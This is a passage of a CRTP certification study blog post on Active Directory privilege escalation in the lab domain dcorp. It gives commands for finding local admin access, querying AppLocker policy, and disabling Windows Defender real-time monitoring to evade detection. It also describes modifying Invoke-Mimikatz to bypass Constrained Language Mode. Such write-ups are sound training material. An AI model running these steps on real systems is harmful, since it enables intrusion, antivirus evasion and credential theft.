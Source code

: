 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 3)
date: 2024-07-03 00:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Step 6: Derivative Local Admin Escalation**

**Objective**: Escalate privileges to domain admin using derivative local admin access on dcorp-adminsrv.

### **Identify Machines with Local Admin Access**
- Use Find-PSRemotingLocalAdminAccess.ps1 PowerShell script to identify machines where local admin privileges are available.

```bash
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```
- Note down dcorp-adminsrv as having local admin privileges.


### **Check Applocker Configuration**

- Verify Applocker policy on dcorp-adminsrv to understand script execution permissions.

```bash
winrs -r:dcorp-adminsrv reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2\Script
```

- Confirm the presence of Applocker rules allowing scripts from %PROGRAMFILES% and %WINDIR%.

### **Inspect Applocker Policy via PowerShell**

- Enter a PowerShell session on dcorp-adminsrv to check Applocker policy details.

```bash
Enter-PSSession dcorp-adminsrv
$ExecutionContext.SessionState.LanguageMode  # Confirm Constrained Language Mode
Get-AppLockerPolicy -Effective | Select-Object -ExpandProperty RuleCollections
```

- Ensure scripts from %PROGRAMFILES% are allowed for the Everyone group.

### **Disable Windows Defender Real-time Monitoring**

- Disable Windows Defender real-time monitoring on dcorp-adminsrv to evade antivirus detection.

```bash
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

### **Modify and Transfer Invoke-Mimikatz**

- Due to Constrained Language Mode restrictions, modify Invoke-Mimikatz.ps1 to embed function calls and create Invoke-MimikatzEx.ps1.
- Transfer the modified script (Invoke-MimikatzEx.ps1) from your local machine to dcorp-adminsrv.
